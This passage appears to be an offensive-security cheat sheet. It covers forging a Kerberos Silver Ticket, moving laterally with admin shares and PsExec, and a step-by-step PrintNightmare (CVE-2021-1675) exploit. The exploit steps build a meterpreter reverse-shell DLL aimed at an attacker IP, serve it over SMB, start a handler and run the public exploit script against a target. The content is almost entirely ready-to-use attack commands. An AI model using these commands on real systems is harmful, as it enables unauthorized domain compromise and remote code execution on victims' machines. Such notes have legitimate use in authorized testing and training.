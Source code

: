 Note: To create a Silver Ticket, simply put a service NTLM hash into the `/krbtgt:` slot, the sid of the service account into `/sid:`, and change the `/id:` to 1103.


 > 
 > **<font color=red>misc::cmd</font>**</br>
 > Open a new elevated command prompt with the given ticket in Minikatz.

 > 
 > **<font color=red>dir \\\\TARGET-MACHINE-NAME\\c$</font>**</br>
 > List files in c drive of the machine.

 > 
 > **<font color=red>PsExec.exe </font>\\\\TARGET-MACHINE-NAME<font color=red>cmd.exe</font>**</br>
 > Get a shell on the machine.

# Exploit

---

### PrintNightmare (CVE-2021-1675)

### Hands On

#### Generate Malicious DLL


 > 
 > **<font color=red>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f dll -o</font> msfvenom_revshell<font color=red>.dll</font>**</br>
 > Generate a malicious DLL (meterpreter reverse shell).

#### Create an SMB Share to Serve the Malicious DLL


 > 
 > **<font color=red>python3 /opt/impacket/examples/smbserver.py</font> myShareName /path/to/folder/ <font color=red>-smb2support</font>**</br>
 > Set up an SMB share.

#### Set up Handler


 > 
 > **<font color=red>use</font> <font color=lightblue>exploit/multi/handler</font>**</br>
 > 
 > **<font color=red>set payload</font> windows/x64/meterpreter/reverse_tcp**</br>
 > Handler for Windows Meterpreter.

#### Exploit

**https://github.com/cube0x0/CVE-2021-1675** 

 > 
 > **<font color=red>python3 /opt/impacket/examples/CVE-2021-1675.py</font> myUser<font color=red>:</font>myPassword<font color=red>@</font>\[TARGET_IP\] <font color=red>'\\\\</font>\[ATTACKER_IP\]<font color=red>\\</font>
**myShareName**<font color=red>\\</font>msfvenom_revshell.dll'**<font color=red></font></br>
 > Run the exploit: privilege escalation (might display an error but meterpreter session is on).
